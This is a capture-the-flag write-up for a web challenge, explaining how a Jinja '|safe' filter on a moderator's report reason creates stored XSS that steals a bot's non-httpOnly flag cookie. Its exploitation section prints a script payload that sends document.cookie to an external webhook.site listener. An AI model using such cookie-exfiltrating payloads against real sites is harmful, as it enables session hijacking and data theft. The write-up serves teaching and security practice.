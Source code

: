 ## Initial Reconnaissance: Finding the Flag's Location
`FLAG_STAGE_3` can be found in bot's cookies when it is initialized, `httpOnly: false`, means that we can have access to this cookie from frontend.
```js
await browser.setCookie({
            domain: baseUrl.replace('http://', '').replace('https://', ''),
            name: 'FLAG',
            value: FLAG_STAGE_3,
            httpOnly: false,
        })
```


Bot service is called when moderator reports a note (`server/main.py`):
```python
@app.route('/report/<note_id>', methods=['GET', 'POST'])
@login_required
@moderator_required
def report_note(note_id):
    if note_id not in notes:
        abort(404)
    if request.method == 'POST':
        reason = request.form['reason']
        reported_notes[note_id] = {'reason': reason, 'reported_by': g.user.get('username'), **notes.get(note_id, {})}
        try:
            response = requests.post(f'{BOT_SERVICE_URL}/bot',
                                     json={'url': CHALLENGE_SERVICE_URL + url_for('report_note', note_id=note_id)})
            return response.text, response.status_code
        except requests.exceptions.RequestException as e:
            return f'Error contacting admin: {e}', 500
    if note_id not in reported_notes:
        redirect(url_for('view_note', note_id=note_id))
    return render_template('report_note.html', note=reported_notes[note_id])
```

## XSS
In report note html template we see the possibility for XSS injection:
```html
{# The reason is safe, why else would we allow it to be reported? #}
        <p>Report reason: {{ note.reason|safe }}</p>
        <p>Reported by: {{ note.reported_by }}</p>
```
The use of `|safe` explicitly disables Jinja2's default output encoding, creating a Stored XSS vulnerability. An attacker with moderator privileges can submit a report containing a JavaScript payload.

## Exploitation
From previous step we have moderator role, so we can report note and past into `note.reason` malicious code that will be executed when bot will access reported note.
Our script will extract cookies and send them to our http listener. (We used webhook for this purpose)

```html
<script>
    fetch('https://webhook.site/ae28ff10-cd3d-4879-a457-48b0362', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```

Upon submission of the report, the bot triggers the payload. The external listener receives the bot's non-`HttpOnly` cookies, which includes `FLAG_STAGE_3`.
**Received Data:** `FLAG=GPNCTF{...flag_stage_3...}`

